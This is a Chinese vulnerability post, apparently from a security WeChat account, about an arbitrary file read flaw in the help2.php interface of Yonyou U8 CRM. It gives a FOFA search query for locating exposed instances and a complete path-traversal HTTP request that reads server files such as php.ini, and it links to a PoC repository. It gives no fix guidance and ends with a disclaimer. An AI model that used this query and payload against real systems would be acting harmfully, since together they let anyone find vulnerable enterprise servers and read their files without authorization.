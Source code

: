 #  用友U8 CRM系统help2 任意文件读取漏洞   
原创 安全透视镜  网络安全透视镜   2023-12-20 07:00  
  
# 一、漏洞描述  
  
  
用友U8+经过20多年的市场锤炼，不断贴近客户需求，以全新UAP为平台，应对中型及成长型企业客户群的发展，提供的是一整套企业级数智化升级解决方案，为成长型企业构建精细管理、产业链协同、社交化运营为一体的企业互联网经营管理平台，助力企业应势而变。g该系统help2文件中接口存在任意文件读取漏洞，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtBvIFDD4UI4zLazJUbFMCRNxI6rWN1IlPPbmxtMBmw1AxGJmL3avBfbw/640?wx_fmt=png&from=appmsg "")  
  
# 二、网络空间搜索引擎搜索  
  
  
fofa查询  
```
title="用友U8CRM"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtBuO497iaJib7cEicQY5gEX2UuqqXa690mSyeibFekoDMnThTYkwV40VA4yg/640?wx_fmt=png&from=appmsg "")  
  
# 三、漏洞复现  
  
  
POC  
```
GET /pub/help2.php?key=/../../apache/php.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtBHwojGFo0IPKkHZm516XyfPD3RoXOU79Bh1uam74xmqribKw9KT7pSEg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtB7Dlia6b8gCeCKKekkS2MW65FGh2lfcKuypDULUg565gssiavWDv8NJUw/640?wx_fmt=png&from=appmsg "")  
  
# 四、漏洞检测  
  
  
pocsuite3漏洞检测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5hv6iasEz89gxRooKMybKtB3gEsh5pQp0sIaDGb7MLSrfEhwa5j3OyDxibOAKdIXp8V0PTlzOiass2w/640?wx_fmt=png&from=appmsg "")  
  
漏洞检测脚本已上传免费漏洞库  
  
地址：  
  
https://github.com/Vme18000yuan/FreePOC  
  
# 免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4ibIBPcmgJMLNXWIaCPcW54mVicYJkaOO1JQicEDBGCBM1P7IiaiablZ9tEUrP27FyvB9CZWl5SiaqhicDw/640?wx_fmt=png "")  
  
  
